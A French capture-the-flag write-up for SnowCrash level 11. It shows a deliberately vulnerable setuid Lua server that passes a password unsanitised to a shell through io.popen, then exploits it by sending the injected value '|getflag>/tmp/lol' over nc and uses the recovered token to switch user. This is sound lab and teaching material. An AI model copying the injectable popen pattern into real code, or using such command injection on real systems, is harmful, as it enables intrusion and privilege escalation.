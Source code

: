 # 11 - Lua exploit: user input

- On se connecte en tant que level11.
```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```


- Un script lua nous a été laissé:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```


- Se script définit un serveur TCP écoutant sur 127.0.0.1 à travers le port 5151. Il demande aux clients tentant de se connecter un mot de passe, qui est ensuite passé à une fonction de hashage. Le résultat du hash est comparé, et le serveur répond en conséquence.
```
level12@SnowCrash:~$ netstat -tunlp | grep 5151
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```

- Il y a bien un serveur écoutant sur 127.0.0.1 à travers le port 5151.
- Ce qui nous intéresse ici est la fonction de hashage. Cette fonction exécute `echo "..pass.." | sha1sum`, (`pass` étant le mot de passe donné au serveur), du coup:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:|getflag>/tmp/lol
Erf nope..
```

```
level11@SnowCrash:~$ cat /tmp/lol
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

```
level11@SnowCrash:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
level12@SnowCrash:~$
```